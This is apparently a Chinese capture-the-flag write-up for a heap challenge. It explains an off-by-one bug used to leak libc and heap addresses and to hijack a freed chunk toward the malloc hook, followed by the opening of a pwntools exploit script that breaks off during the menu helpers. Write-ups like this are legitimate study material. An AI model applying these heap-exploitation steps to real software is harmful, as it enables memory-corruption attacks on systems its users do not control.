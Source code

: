 > 写入chunk的时候多写了一位0 造成one_byte漏洞

- 通过chunk进入unsortedbin中然后输出`fd`和`bk`泄露libc地址

- 通过chunk进入tcache然后 malloc回来 然后输出chunk内容 泄露`heap`地址

### 劫持freechunk

- 因为这题用的两个全局变量来存储的使用情况和chunk地址 我们不太方便伪造`fake head`来实现劫持
- 因为存在off_by_one漏洞 我们可以利用合并机制 进行修改一些已经进入bin链的chunk 修改其fd 然后我们再通过malloc 就可以实现malloc下来一个任意地址 这里我们选择打malloc hook
- 大致就是构造一个情况:a b c 三个chunk 然后ac都为`unsortedbin chunk` b为`fastbin chunk`然后让ac触发合并机制 把b包含在合并后的大chunk中 我们再将这个大chunk malloc下来 这样我们就可以修改b chunk了 

```python
import time

from pwn import *
# context(os='linux', arch='mips',endian="little", log_level='debug')
# context(os='linux', arch='amd64', log_level='debug')
context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']
file_name = "./vuln"
url = "127.0.0.1"
port = 65030
# elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b *main+34")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def recv_menu():
    ru(b">>> ")
def debug():
    gdb.attach(p,"b *main+34")
    input("stop")
def add(index,size):
    recv_menu()
    sl(b"1")
    ru(b"[?] please input chunk_idx: ")
    sl(str(index).encode())
    ru(b"[?] Enter chunk size: ")
    sl(str(size).encode())
    print("---------------\nadd chunk {}\n---------------".format(index))
def delete(index):
    recv_menu()
    sl(b"2")
    ru(b"[?] please input chunk_idx: ")
    sl(str(index).encode())
    print("---------------\ndelete chunk {}\n---------------".format(index))
def edit(index,content):
    recv_menu()
    sl(b"4")
    ru(b"[?] please input chunk_idx: ")
    sl(str(index).encode())
```
